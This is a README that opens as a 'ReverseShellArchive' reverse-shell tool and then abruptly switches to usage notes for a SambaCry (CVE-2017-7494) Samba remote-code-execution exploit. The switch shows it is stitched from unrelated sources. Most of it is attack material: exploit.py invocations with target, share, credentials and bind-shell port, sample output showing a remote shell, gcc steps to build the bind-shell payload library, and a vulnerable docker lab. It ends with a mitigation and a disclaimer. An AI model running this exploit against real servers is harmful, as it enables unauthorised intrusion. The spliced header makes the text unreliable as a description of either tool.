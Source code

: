 # ReverseShellArchive

Reverse Shell Archive is a handy tool to quickly get needed reverse shell script, and to upgrade shells to fully interactive TTYs.

Supported scripts:
- BASH, PHP, PERL, PYTHON, RUBY, NETCAT, TELNET

### Example

![Reverse Shell Archive](https://github.com/UtopiaBe/ReverseShellArchive/lib/reverseshellsarchive.gif

To properly run this exploit you will need a patched version of `impacket` python library and the other dependencies in requirements file. To install all of them, please run

```
pip install -r requirements.txt
```

If you run Python3, you need to run this software in a virtual environment. Please follow the steps:

```
pip install virtualenv
virtualenv -p /usr/bin/python2.7 venv # or wherever your python2.7 resides
source venv/bin/activate.sh
```

After that you can run it as the following:

```
./exploit.py -t <target> -e libbindshell-samba.so \
             -s <share> -r <location>/libbindshell-samba.so \
             -u <user> -p <password> -P 6699
```

For example, if you want to exploit the vulnerable environment with within this repository, run

```
./exploit.py -t localhost -e libbindshell-samba.so \
             -s data -r /data/libbindshell-samba.so \
             -u sambacry -p nosambanocry -P 6699
```

And you will get the following output

```
./exploit.py -t localhost -e libbindshell-samba.so \
             -s data -r /data/libbindshell-samba.so \
             -u sambacry -p nosambanocry -P 6699
[*] Starting the exploit
[+] Authentication ok, we are in !
[+] Preparing the exploit
[+] Exploit trigger running in background, checking our shell
[+] Connecting to 10.1.1.5 at 6699
[+] Veryfying your shell...
Linux 7a4b8023575a 3.16.0-4-amd64 #1 SMP Debian 3.16.39-1+deb8u1 (2017-02-22) x86_64 GNU/Linux
>>
```

Exploit's arguments explained:

```
usage: exploit.py [-h] -t TARGET -e EXECUTABLE -s REMOTESHARE -r REMOTEPATH
                  [-u USER] [-p PASSWORD] [-P REMOTESHELLPORT]
```

* `-t` or `—target` - Set the remote host to attack.
* `-e` or `—executable` - Set the path on your **local system** where the lib that you want to load is located.
* `-s` or `—remoteshare` - Remote share where the file will be copied.
* `-r` or `—remotepath` - Where the file is located on the **remote system**.
* `-u` or `—user` - Username to log in with.
* `-p` or `—password` - Password to use to log in with.
* `-P` or `—remoteshellport` - If you are using a bind shell payload, connect to the payload after the attack is executed.

### Vulnerable environment

To simulate this attack you can use a vulnerable docker image. If you have docker installed, just run

```
docker run --rm -it \
       -p 137-139:137-139 \
       -p 445:445 -p 6699:6699 \
       vulnerables/cve-2017-7494
```

If you want to access, use the following credentials.

* User: `sambacry`
* Password: `nosambanocry`



### Alternative payloads

You can find one example of binding shell payload for this exploit in `bindshell-samba.c` file. Change it as you may find necessary. After that to generate a new binary, use:

```
gcc -c -fpic bindshell-samba.c
gcc -shared -o libbindshell-samba.so bindshell-samba.o
```

### Afftected software

Samba 3.x after 3.5.0 and 4.x before 4.4.14, 4.5.x before 4.5.10, and 4.6.x before 4.6.4

### Mitigation

Add the parameter:

```
nt pipe support = no
```

to the `[global]` section of your smb.conf and restart smbd. This prevents clients from accessing any named pipe endpoints. Note this can disable some expected functionality for Windows clients.

Also consider mounting the filesystem which is used by samba for its writable share using `noexec` option.

### Disclaimer

This or previous program is for Educational purpose ONLY. Do not use it without permission. The usual disclaimer applies, especially the fact that me (opsxcq) is not liable for any damages caused by direct or indirect use of the information or functionality provided by these programs. The author or any Internet provider bears NO responsibility for content or misuse of these programs or any derivatives thereof. By using these programs you accept the fact that any damage (dataloss, system crash, system compromise, etc.) caused by the use of these programs is not opsxcq's responsibility.
